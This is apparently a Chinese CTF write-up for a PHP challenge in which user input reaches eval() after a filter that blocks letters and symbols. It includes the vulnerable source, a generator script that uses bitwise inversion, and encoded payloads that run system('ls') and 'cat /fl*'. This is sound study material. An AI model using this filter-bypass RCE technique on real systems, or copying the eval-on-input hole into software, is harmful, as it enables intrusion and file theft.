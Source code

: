 #RCE

```php
<?php
	header("Content-Type:text/html;charset=utf-8");
	error_reporting(0);
	highlight_file(__FILE__);
	if(isset($_GET['wllm']))
	{    
		$wllm = $_GET['wllm'];    
		$blacklist = [' ','\t','\r','\n','\+','\[','\^','\]','\"','\-','\$','\*','\?','\<','\>','\=','\`',];       
		foreach ($blacklist as $blackitem)       {           if (preg_match('/' . $blackitem . '/m', $wllm)) {           
			die("LTLT说不能用这些奇奇怪怪的符号哦！");       
		}
	}
	if(preg_match('/[a-zA-Z]/is',$wllm))   {       
		die("Ra's Al Ghul说不能用字母哦！");
	}
	echo "NoVic4说：不错哦小伙子，可你能拿到flag吗？";
	eval($wllm);   }
	else   {       
	echo "蔡总说：注意审题！！！";   }
?>
```

[无字母数字绕过正则表达式总结含上传临时文件、异或、或、取反、自增脚本](https://blog.csdn.net/miuzzx/article/details/109143413)

无字母 RCE
本题可以取反
取反 PHP 脚本

```php
<?php
fwrite(STDOUT, '[+]your function: ');
$system = str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN));
fwrite(STDOUT, '[+]your command: ');
$command = str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN));
echo '[*] (~' . urlencode(~$system) . ')(~' . urlencode(~$command) . ');';
```

参考
[一些不包含数字和字母的 webshell | 离别歌 (leavesongs.com)](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)

#### 取反(~)

```php
<?php
$a = 'system';
$b = 'cat /fl*';
$ak = urlencode(~$a);
$bk = urlencode(~$b);
echo '(' . '~' . $ak . ')' . '(' . '~' . $bk . ')';
```

```php
system('ls');
// (~%8C%86%8C%8B%9A%92)(~%93%8C);
system('cat /fl*');
// (~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%D0%99%93%D5);
```

[无字母数字绕过正则表达式总结（含上传临时文件、异或、或、取反、自增脚本）\_数字绕过+\_yu22x 的博客-CSDN 博客](https://blog.csdn.net/miuzzx/article/details/109143413)
